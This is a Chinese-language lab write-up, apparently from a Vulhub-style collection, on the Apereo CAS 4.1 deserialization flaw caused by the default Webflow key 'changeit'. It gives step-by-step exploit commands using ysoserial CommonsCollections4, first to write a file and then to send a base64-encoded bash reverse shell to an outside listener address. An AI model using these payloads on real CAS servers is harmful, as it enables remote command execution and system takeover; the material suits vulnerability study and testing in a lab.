# Apereo CAS 4.1 反序列化命令执行漏洞

## 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

Vulhub执行如下命令启动一个Apereo CAS 4.1.5：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

### 写入文件

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/awesome_poc"
```

![image-20220223143747931](images/202202231437193.png)

然后登录Apereo CAS并抓包（默认用户名/密码为casuser/Mellon），将Body中的`execution`值替换成上面生成的Payload发送：

![image-20220221163417155](images/202202211634315.png)

登录Apereo CAS，touch /tmp/success已成功执行：

![image-20220221163608606](images/202202211636651.png)

### 写入反弹shell

构造反弹shell并进行base64编码

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

![image-20220223143714661](images/202202231437964.png)

监听端口，成功反弹shell

![image-20220221164026966](images/202202211640018.png)

